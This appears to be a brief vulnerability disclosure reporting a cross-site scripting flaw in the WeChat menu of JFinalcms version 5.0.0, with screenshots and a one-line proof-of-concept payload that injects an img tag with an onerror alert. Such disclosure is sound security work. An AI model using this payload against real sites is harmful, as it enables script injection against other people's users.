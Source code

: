 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

XSS exists in the WeChat menu

![图片](https://github.com/Kangsiyuan/cms2/assets/67638684/65d21b86-02dd-4254-b313-7a7bb2a86682)


poc:`"><img src=1 onerror=alert(1)>`


![图片](https://github.com/Kangsiyuan/cms2/assets/67638684/9300e6ef-2f50-4d96-acc8-8075de4d6280)


successed

![图片](https://github.com/Kangsiyuan/cms2/assets/67638684/6cb12dfa-cabc-4181-bc81-16535a0466e5)
